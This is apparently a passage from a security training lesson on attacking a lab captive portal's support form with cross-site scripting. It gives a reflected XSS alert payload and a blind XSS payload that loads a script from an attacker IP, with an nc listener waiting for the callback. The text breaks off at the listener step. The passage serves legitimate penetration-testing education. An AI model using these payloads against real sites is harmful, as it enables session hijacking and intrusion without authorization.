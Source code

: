 
<h1>Portal Hijacking through XSS and Command Injection</h1>
<hr/>
<p>In some instances, captive portal systems may include a support form or other input-based features. If these forms lack proper input sanitization or security controls, they could be vulnerable to attacks like Cross-Site Scripting (XSS) or, in more severe cases, OS command injection. In this section, we will analyze a poorly implemented captive portal with a vulnerable support form. While real-world scenarios may vary, understanding these weaknesses can help identify similar vulnerabilities during security assessments.</p>
<p>Assume we navigate to the captive portal's sign-in page and notice the presence of a support section.</p>
<img class="website-screenshot" data-url="http://captive.htb.local" src="/storage/modules/299/xss/supportportal1.png"/>
<p>Upon clicking the support link, we might be redirected to an actual support form.</p>
<img class="website-screenshot" data-url="http://captive.htb.local/support.php" src="/storage/modules/299/xss/supportportal2.png"/>
<hr/>
<h1>Cross Site Scripting (XSS)</h1>
<p>Cross-Site Scripting (XSS) is a web security vulnerability that allows an attacker to inject malicious scripts into a trusted website. When a victim visits the compromised page, the malicious script runs in their browser, potentially stealing data, hijacking sessions, or performing unauthorized actions. We can test the support form of the captive portal to check if it is vulnerable to Cross Site Scripting (XSS). To learn more about XSS attacks, refer to the <a href="https://academy.hackthebox.com/module/details/103">Cross-Site Scripting (XSS)</a> module.</p>
<hr/>
<h3>Testing for Reflected XSS</h3>
<p>Reflected XSS vulnerabilities occur when our input reaches the back-end server and is returned without being filtered or sanitized. Often, our entire input might be reflected in error messages or confirmation messages. In such cases, we can test XSS payloads to check if they execute.</p>
<p>We can execute the following script to test if the support form is vulnerable to reflected XSS:</p>
<pre><code class="language-javascript">&lt;script&gt;alert("XSS Capable")&lt;/script&gt;
</code></pre>
<img class="website-screenshot" data-url="http://captive.htb.local/support.php" src="/storage/modules/299/xss/supportportal3.png"/>
<p>Depending on the results of our test, we might observe an alert prompt, indicating that the XSS payload has successfully executed.</p>
<img class="website-screenshot" data-url="http://captive.htb.local/support.php" src="/storage/modules/299/xss/supportportal4.png"/>
<hr/>
<h3>Testing for Blind XSS</h3>
<p>A Blind XSS vulnerability occurs when the injected payload is executed on a page that we do not have direct access to.</p>
<p>These vulnerabilities often exist in forms or inputs that are later viewed by privileged users, such as administrators. Some common examples include:</p>
<ul>
<li>Contact Forms</li>
<li>Reviews</li>
<li>User Details</li>
<li>Support Tickets</li>
<li>HTTP User-Agent Header</li>
</ul>
<p>Let's see if we can trigger some type of user interaction. Fill out all details for a ticket and include the following in the Message field:</p>
<pre><code class="language-javascript"> "&gt;&lt;script src=http://200.200.200.78:9200/TESTING_THIS&lt;/script&gt;
</code></pre>
<p>The script above includes our IP address on the captive portal's network. We then use nc to listen on the port specified in the script to check for a callback.</p>
<pre><code class="language-shell-session">[!bash!]$ nc -nvlp 9200
